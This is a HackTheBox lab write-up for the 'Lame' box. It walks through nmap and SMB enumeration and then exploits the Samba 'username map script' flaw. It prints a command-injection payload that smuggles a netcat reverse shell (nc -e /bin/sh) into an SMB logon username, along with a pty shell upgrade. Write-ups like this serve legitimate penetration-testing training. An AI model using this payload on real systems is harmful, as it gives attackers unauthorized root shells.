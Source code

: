 # Lame - Linux (Easy)

## Summary
Lame was the first box to be released on HackTheBox and is a relatively easy box that is easily rooted with a standard Metasploit exploit, which I will explore towards the end. However staying in theme with practicing manual exploits in preparation for the OSCP, I will be prioritizing manual attack vectors for this box. This box throws a slight curve ball with a vulnerable VSFTPd server. However, it ends up being a rabbit hole as the server does not allow remote exploitation. 

## Enumeration

I started Enumeration with an `Nmap` scan to find open ports among the top 1000 ports and used the following command to launch my scan.

``` 
sudo nmap -sC -sV -T4 -A $machine_IP -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A - Aggresive Scan Options
-vv - Verbosity level
```

![Nmap Command](Images/nmap_command.png)

![Nmap Ports](Images/nmap_ports.png)

This scan found Open Ports 21 (FTP), 22 (SSH), 139 & 445 (SMB)

![Nmap 21  & 22](Images/nmap_21_22.png)

### Port 21 - FTP

According to the `Nmap` scan, FTP allows anonymous login, so I attempted to login, which while successful, led to an empty directory.

![FTP Anonymous Login](Images/ftp_anon.png)

I followed this up by running Searchsploit on `vsftpd 2.3.4` which shows an exploit, which unfortunately, was not not configured to be exploitable.

![Searchsploit VSFTPD](Images/searchsploit_vsftpd.png)

### Port 445 SMB

Following FTP Enumeration, I moved onto Samba. I ran `enum4linux` which demonstrated that the `/tmp` directory could be potentially interesting. For reference, `smbmap` would provide the same output in this case.
```
smbmap -H $machine_IP
```

![Enum4linux 1](Images/enum4linux_1.png)
![Enum4linux 2](Images/enum4linux_2.png)

Following this, I re-ran Searchsploit against the version of Samba identified in the Nmap Scan. 

![Nmap Samba](Images/nmap_samba.png)

I settled on the Metasploit Command Execution 'Username map script' entry on [ExploitDB](https://www.exploit-db.com/exploits/16320).

![Searchsploit Samba](Images/searchsploit_samba.png)

This exploit aims to create an SMB session with a username (my payload), password (a random 16 character string) and a user provided domain.

![Exploit Script](Images/exploit_script.png)


I initially, however incorrectly, attempted to inject the payload when logging in, which failed to work. 

![Exploit in Login](Images/exploit_in_login.png)

However, since it allowed anonymous login, I was able to log in and inject the payload as a SMB command. 

![Payload](Images/payload.png)

```
logon "./= `nohup nc -e /bin/sh $LHOST $LPORT`" - This allowed me to trigger a netcat shell
```

Meanwhile, I setup a netcat listener on $LPORT to catch the shell.

![Netcat Listener](Images/netcat_listener.png)

## Post Exploitation 

With how the box is configured, I automatically get a root shell - due to the difficulty rating of the box, Privilege Escalation (PrivEsc) is not required. 

Traversing through the file structure, I was able to obtain user and root flags. 

![User Flag](Images/user.txt.png)
![Root Flag](Images/root.txt.png)

Running `sudo -l` allowed me to understand what the user could run as root. This tends to come in handy when identifying applications that can be run as the root user.

![Sudo -L](Images/sudo-l.png)

Meanwhile, I used the following command to spawn an interactive terminal (tty) using Python
```
python -c 'import pty; pty.spawn("bash")'
```

![Upgrading Shell](Images/upgrading_shell.png)

![Finding Flags](Images/finding_flags.png)

## Replicating results with Metasploit

![Metasploit](Images/metasploit.png)

## Completion

![Certificate](Images/cert.png)